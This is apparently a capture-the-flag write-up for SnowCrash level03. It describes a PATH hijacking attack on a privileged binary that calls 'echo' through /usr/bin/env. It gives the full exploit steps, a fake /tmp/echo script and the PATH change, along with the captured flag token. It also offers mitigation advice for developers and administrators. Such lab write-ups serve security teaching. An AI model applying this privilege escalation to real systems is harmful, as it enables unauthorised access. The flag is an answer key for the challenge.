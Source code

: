```markdown
# CTF Report: SnowCrash Level03

## Executive Summary
This level exploits a PATH hijacking vulnerability in the `level03` binary. The binary executes `/usr/bin/env echo` via `system()`, which can be manipulated by injecting a malicious `echo` script into the PATH. Successfully exploiting this vulnerability grants access to the flag.

**Flag:** `qi0maab88jeaj46qoumi7maus`

## Reconnaissance

### Initial Execution
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

### Dynamic Analysis with ltrace
```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                = 2003
geteuid()                                                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                   = 0
+++ exited (status 0) +++
```

### Key Findings
- Binary sets UID/GID to 2003 (likely flag03 user privileges)
- Executes: `system("/usr/bin/env echo Exploit me")`
- Uses `/usr/bin/env` to locate `echo` command via PATH environment variable
- Does NOT use absolute path for echo command

## Vulnerability Analysis

### Vulnerability Type
**PATH Environment Variable Hijacking**

### Root Cause
The binary uses `system("/usr/bin/env echo ...")` which:
1. Calls `/usr/bin/env` to find the `echo` executable
2. `/usr/bin/env` searches through directories listed in the PATH environment variable
3. PATH is user-controllable and can be manipulated
4. No absolute path is specified for the `echo` command

### Attack Vector
By placing a malicious executable named `echo` in a directory and prepending that directory to PATH, we can hijack the command execution.

## Exploitation

### Step 1: Create Malicious Echo Script
```bash
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ cat > /tmp/echo <<'EOF'
echo "Hijacked echo called with: $@"
getflag
EOF
```

### Step 2: Make Script Executable
```bash
level03@SnowCrash:/tmp$ chmod +x /tmp/echo
```

### Step 3: Modify PATH Environment Variable
```bash
level03@SnowCrash:/tmp$ PATH=/tmp:$PATH
```

This prepends `/tmp` to PATH, ensuring our malicious `echo` is found first.

### Step 4: Execute the Binary
```bash
level03@SnowCrash:/tmp$ cd ~
level03@SnowCrash:~$ ./level03
Hijacked echo called with: Exploit me
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## Result

**Successfully captured flag:** `qi0maab88jeaj46qoumi7maus`

## Technical Details

### Exploit Chain
1. Binary runs with elevated privileges (UID/GID 2003)
2. Binary calls `system("/usr/bin/env echo Exploit me")`
3. `/usr/bin/env` searches PATH for `echo`
4. Our `/tmp/echo` is found first due to PATH manipulation
5. Our script executes with elevated privileges
6. `getflag` command runs and returns the flag

### Why This Works
- `setresuid()` and `setresgid()` maintain elevated privileges throughout execution
- `system()` spawns a shell that inherits the PATH environment variable
- `/usr/bin/env` is designed to search PATH, making it vulnerable to this attack
- The `/tmp` directory is writable by all users

## Security Recommendations

### For Developers
1. **Use Absolute Paths:** Always specify full paths for system commands
   ```c
   system("/bin/echo Exploit me");  // Instead of "echo"
   ```

2. **Avoid system() Calls:** Use `execve()` with explicit paths and controlled environments

3. **Sanitize Environment:** Reset PATH before executing external commands
   ```c
   setenv("PATH", "/usr/local/bin:/usr/bin:/bin", 1);
   ```

4. **Input Validation:** Never trust user-controlled environment variables in privileged contexts

### For System Administrators
1. Restrict write permissions on directories in default PATH
2. Implement mandatory access controls (SELinux, AppArmor)
3. Monitor for unusual PATH modifications in privileged processes
4. Use code signing and integrity checks for critical binaries

## References
- CWE-426: Untrusted Search Path
- CWE-427: Uncontrolled Search Path Element
- OWASP: Command Injection

## Timeline
- Initial reconnaissance and binary execution
- Dynamic analysis using ltrace
- Vulnerability identification (PATH hijacking)
- Exploit development and testing
- Successful flag capture: `qi0maab88jeaj46qoumi7maus`
```